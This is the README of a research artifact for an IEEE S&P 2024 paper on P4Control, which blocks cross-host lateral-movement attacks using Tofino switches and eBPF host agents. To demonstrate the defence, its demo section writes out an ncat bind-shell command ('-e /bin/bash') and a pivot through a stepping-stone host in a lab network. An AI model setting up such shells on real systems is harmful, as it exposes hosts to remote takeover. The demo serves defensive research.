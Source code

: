 # P4Control

This repository contains the artifacts for the paper titled "P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF", accepted at 45th IEEE Symposium on Security and Privacy (IEEE S&P / Oakland), 2024. For questions, please reach out to [Osama Bajaber](mailto:obajaber@vt.edu).

## Dependencies
- Python 3.7 
- Tofino Switch SDE 9.7.0
- BCC (Linux 5.15.0)
- Bison 3.8.2
- Flex 2.6.4
- Scapy 2.4.5

## Setup
Current configurations consider three hosts are connected to the Tofino switch with the following IP addresses and labels (feel free to adjust these configurations as per your topology)
- ```Host1```, 10.0.0.1, Label={HOST1}
- ```Host2```, 10.0.0.2, Label={HOST2}
- ```Host3```, 10.0.0.3, Label={HOST3}

## How to use

### Run P4 Switch program
Make sure you have installed the Tofino switch SDE and set the environment variables ```SDE=~/bf-sde-9.7.0/``` and ```SDE_INSTALL=~/bf-sde-9.7.0/install```

Step 1: Build the P4 program
```
./p4_build.sh -p switch/p4control.p4
```

Step 2: Run the switch program in the Tofino switch
```
./run_switchd.sh -p p4control
```

Step 3: Start the control plane
```
python3 switch/controller.py
```

This will load ```P4Control``` in the designated Tofino switch and run the control plane. The current control plane code inserts the needed ```NetCL``` policies to block traffic between ```Host1``` and ```Host3```.

### Run eBPF-based host agent

Now, as the switch program is running, load the eBPF host agent to the hosts. We tested the host agent on Ubuntu 20.04.1 LTS, but it should work with other versions. Make sure to update the correct interface name in ```host_agent/host_agent.py```.

Step 0: ```host_agent/host_agent_ebpf.c``` provides the ability to manually label a specific PID with a custom DIFC label for easy configuration

In your opened terminal, check the PID of the current bash process by executing the following
```
 ps
```
 
Copy the PID of the bash process to the defined ```TAGGED_TERMINAL``` variable at the top of ```host_agent/host_agent_ebpf.c```
```
u32 TAGGED_TERMINAL = <PID>;
```

Step 1: Run the host agent in all three hosts. The following command will attach all the needed eBPF programs inside the kernel
```
python3 host_agent/host_agent.py
```

### Perform a cross-host attack

To perform a cross-host attack from Host1 to Host3, using Host2 as a stepping stone

Step 1: In ```Host2``` and ```Host3```, start a ```ncat``` listener 
```
sudo ncat -nlvp 9999 -e /bin/bash
```

Step 2: From ```Host1```, connect to ```Host2```
```
sudo ncat 10.0.0.2 9999
```

Step 3: From ```Host1``` establish a session to ```Host3``` through ```Host2```
```
ncat 10.0.0.3 9999
```

P4Control will block the last connection as the label {Host1} is detected.

### Compile ```NetCL``` rules

To compile ```NetCL``` rules

Step 1: Run the following command
```
./netcl-compile -i <netcl_rules> -o <compiled_rules>
```

### Run custom tools

To use the custom tools to send and receive customized packets with DIFC headers

Step 1: At the receiving host, run the following to start sniffing packets
```
python3 custom-receive.py
```

Step 2: At the sending host, run the following command to send the custom packet
```
python3 custom-receive.py <destination_IP> <label> <tracker> <message>
```


## Cite the paper

If you like or use our work, please cite us using:

```
@INPROCEEDINGS {bajaber2024p4control,
author = {O. Bajaber and B. Ji and P. Gao},
title = {P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF},
booktitle = {IEEE Symposium on Security and Privacy (S\&P)},
year = {2024},
pages = {146-146},
}
```
